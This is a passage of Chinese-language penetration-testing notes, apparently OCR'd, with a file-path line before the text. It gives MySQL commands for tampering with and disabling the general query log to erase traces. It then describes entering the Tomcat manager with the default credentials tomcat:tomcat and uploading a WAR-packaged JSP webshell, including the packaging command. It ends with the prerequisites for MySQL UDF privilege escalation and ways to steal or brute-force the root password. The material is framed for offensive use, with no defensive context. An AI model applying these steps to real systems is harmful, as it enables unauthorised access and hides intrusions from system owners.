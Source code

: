 #### 5、抹除痕迹

```
set global general_log_file='D:\\phpStudy\\MySQL\\data\\fuckyou.log';
set global general_log = off;
```

再使用日志查看命令发现已经恢复

```
SHOW VARIABLES LIKE '%general%'
```

# 容器中间件类

## Tomcat平台后台

上传WAR包自动解析部署-JSP压缩ZIP后修改WAR后缀

打开tomcat管理页面`http://your-ip:8080/manager/html`，输入弱密码`tomcat:tomcat`，即可访问后台：

上传war包即可直接getshell

```
war包制作，命令行：

jar -cvf bkk.war bkk.jsp
\#也可以先压缩jsp马，然后修改后缀为war
```

# 数据库提权

## mysql-udf提权

https://www.cnblogs.com/sfsec/p/15241860.html

https://blog.csdn.net/weixin_43801718/article/details/105493042

必要条件：

1. **具有MySQL的root权限，且MySQL以system权限运行。**
2. **具有执行SQL语句的权限。**

获取root密码的方法：

1、查看数据库配置文件关键字：config、conn、sql、data、inc、database等
2、下载mysql安装路径下的数据文件
 安装路径下的data目录中存放的是数据库的数据信息
 root账号密码存储在mysql数据库下的user表中
 完整路径=安装路径+\data\mysql\user.MYD
3、暴力破解

### UDF提权简介
